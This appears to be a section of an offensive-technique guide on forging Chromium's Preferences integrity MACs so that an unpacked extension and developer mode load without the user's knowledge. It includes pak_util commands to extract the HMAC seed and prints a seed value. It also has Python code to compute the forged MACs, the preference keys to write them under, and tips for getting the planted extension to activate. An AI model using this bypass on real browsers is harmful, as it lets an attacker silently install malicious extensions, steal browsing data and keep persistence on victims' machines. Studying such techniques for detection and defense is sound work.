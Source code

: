 ## Forging Preferences integrity MACs (core bypass)

Chromium protects preferences with HMAC‑SHA256 over "path" + serialized JSON value of each node. The HMAC seed is embedded in the browser’s resources.pak and was still valid up to Chromium 139.

Extract the seed with GRIT pak_util and locate the seed container (file id 146 in tested builds):

```bash
python3 pak_util.py extract resources.pak -o resources_v139/
python3 pak_util.py extract resources.pak -o resources_v139_dirty/
# compare a clean vs minimally modified resources.pak to spot the seed holder
xxd -p resources_v139/146
# e748f336d85ea5f9dcdf25d8f347a65b4cdf667600f02df6724a2af18a212d26b788a25086910cf3a90313696871f3dc05823730c91df8ba5c4fd9c884b505a8
```

Compute MACs (uppercase hex) as:

```text
ext_mac = HMAC_SHA256(seed,
  "extensions.settings.<crx_id>" + json.dumps(<settings_json>))

devmode_mac = HMAC_SHA256(seed,
  "extensions.ui.developer_mode" + ("true" or "false"))
```

Minimal Python example:

```python
import json, hmac, hashlib

def mac_upper(seed_hex: str, pref_path: str, value) -> str:
    seed = bytes.fromhex(seed_hex)
    # Compact JSON to match Chromium serialization closely
    val = json.dumps(value, separators=(',', ':')) if not isinstance(value, str) else value
    msg = (pref_path + val).encode('utf-8')
    return hmac.new(seed, msg, hashlib.sha256).hexdigest().upper()

# Example usage
settings_path = f"extensions.settings.{crx_id}"
devmode_path = "extensions.ui.developer_mode"
ext_mac = mac_upper(seed_hex, settings_path, settings_json)
devmode_mac = mac_upper(seed_hex, devmode_path, "true")
```

Write the values under:
- protection.macs.extensions.settings.<crx_id> = ext_mac
- protection.macs.extensions.ui.developer_mode = devmode_mac (Chromium ≥134)

Browser differences: on Microsoft Edge and Brave the seed may be null/different. The HMAC structure remains the same; adjust the seed accordingly.

> Implementation tips
> - Use exactly the same JSON serialization Chromium uses when computing MACs (compact JSON without whitespace is safe in practice; sorting keys may help avoid ordering issues).
> - Ensure extensions.ui.developer_mode exists and is signed on Chromium ≥134, or your unpacked entry won’t activate.
